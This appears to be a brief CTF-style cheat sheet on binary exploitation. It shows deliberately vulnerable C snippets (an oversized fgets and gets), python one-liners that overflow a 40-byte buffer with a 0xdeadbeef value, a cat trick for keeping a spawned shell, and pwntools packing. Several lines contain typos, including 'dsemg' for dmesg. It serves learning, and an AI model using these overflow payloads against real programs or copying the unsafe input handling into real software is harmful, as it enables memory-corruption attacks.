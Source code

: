 # PWN

***Binary exploitation***

## Stack buffer overflow
Example : buf is defined with 40 byte BUT 45 bytes are allowed in the fgets  
those bytes overflow to check variable...
```c
...
int check = 0x04030201;
char buf[40];
 
fgets(buf,45,stdin);
...
```
gets function doesn't take any lenght as a parameter so the buffer can be overflown
```c
gets(f);
```

dsemg tells us where the segmentation fault occurs if there was one
```bash
dsemg | tail
```


## Tips
- Using python to handle input is often a good solution because it handles some encryption as hex that a raw keyboard input doesn't
```bash
python -c 'print "z"*40 + "\xef\xbe\xad\xde"' | ./binary
```

- When a shell spawns but dispawns instantly, using `cat` can sometimes help
```bash
(python -c 'print "z"*40 + "\xef\xbe\xad\xde"';cat) | ./binary
```

- Convert an hew string to every structure (e.g. little endian / big endian)
https://docs.python.org/3/library/struct.html
```py
import struct
struct.pack("<I",0x0a0a5e05e)
```

```py
import pwn
pwn.p32(0x0a0a5e05e)
```
6GbHaoQSMKHDFFim58fFrAEcDDadQK76xdCecRYN
